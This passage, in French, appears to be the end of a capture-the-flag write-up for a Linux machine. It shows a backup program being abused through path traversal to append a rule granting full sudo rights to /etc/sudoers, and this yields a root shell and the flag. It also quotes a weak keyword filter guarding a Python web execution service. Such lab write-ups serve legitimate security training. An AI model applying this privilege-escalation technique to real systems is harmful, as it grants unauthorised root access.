 ```c

```

L'exécutable semble demander une ligne et un nom de fichier puis rajoute la ligne à la fin du fichier.  

Le path saisit doit commencer par /srv/backups/ et grace à un fichier présent on peut vérifier le comportement du programme.

```plain

[py@archlinux secret_stuff]$ cat /srv/backups/ree 
hello reeehello hello
goodbye
[py@archlinux secret_stuff]$ ./backup 
Enter a line of text to back up: mytest
Enter a file to append the text to (must be inside the /srv/backups directory): /srv/backups/ree
[py@archlinux secret_stuff]$ cat /srv/backups/ree
hello reeehello hello
goodbye
mytest

```

Il y a plein de méthodes sous Linux pour obtenir une escalade de privilège via l'ajout de lignes dans un fichier (/etc/passwd, crontab, etc), j'ai opté pour le fichier *sudoers*.

```plain

[py@archlinux secret_stuff]$ ./backup 
Enter a line of text to back up: py ALL=(ALL) ALL
Enter a file to append the text to (must be inside the /srv/backups directory): /srv/backups/../../etc/sudoers
[py@archlinux secret_stuff]$ sudo su
[sudo] password for py: 
sudo: su: command not found
[py@archlinux secret_stuff]$ export PATH=/usr/local/bin:/usr/bin:/bin:/sbin:/usr/sbin
[py@archlinux secret_stuff]$ sudo su
[root@archlinux secret_stuff]# cd /root
[root@archlinux ~]# ls
root.txt
[root@archlinux ~]# cat root.txt
63a9f0ea7bb98050796b649e85481845

```

Sous le chapeau
---------------

Dans le fichier [/srv/wsgi/shell.py](file:///srv/wsgi/shell.py "/srv/wsgi/shell.py") on retrouve le code chargé de l'exécution Python, voici un extrait :

```python

def check_if_safe(code: str) -> bool:
	if 'import' in code: # import is too dangerous
		return False
	elif 'os' in code: # os is too dangerous
		return False
	elif 'open' in code: # opening files is also too dangerous
		return False
	else:
		return True

def run_program(raw_form_data) -> (str,str):
	program=""
	stdin=""
```